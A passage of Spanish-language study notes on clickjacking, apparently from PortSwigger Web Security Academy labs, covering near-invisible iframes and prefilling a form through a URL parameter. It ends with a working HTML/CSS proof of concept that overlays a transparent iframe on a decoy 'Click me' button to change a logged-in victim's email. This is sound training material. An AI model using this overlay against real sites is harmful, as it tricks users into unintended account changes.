 ![[Pasted image 20220928163047.png]]

cambiamos la opacidad `opacity: 0.0001` para que no se vea el iframe:

![[Pasted image 20220928163140.png]]

>[!info]
>El usuario victima tiene que estar logueado en la pagina vulnerable para que sus clicks tomen efecto.

>[!note]
>Puede que en nuestra PoC primero pongamos opacity en 1, iniciamos sesion y luego podemos calcular los botones.

### Clickjacking with form input data prefilled from a URL parameter

Puede que a traves de parametros GET podamos prellenar un formulario, por ejemplo a traves del parametro email podemos prellenar el valor del campo del formulario:

sin prellenado:

![[Pasted image 20230208211752.png]]

con prellenado:

![[Pasted image 20230208211836.png]]

>[!tip]
>No siempre nos mostrara estos parametros en la URL al cargar una pagina, hay que probar para adivinarlos.

asi solo toca hacer coincidir con el boton de actualizar email:

```bash
<style>
	iframe {
		position:relative;
		width: 500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}

	div {
		position:absolute;
		top:450px;
		left:70px;
		z-index: 1;
	}
</style>

<div>Click me</div>
<iframe src="https://0a8f0014031efa4bce9063ff003200a5.web-security-academy.net/my-account?email=yei@yei.c"></iframe>
```

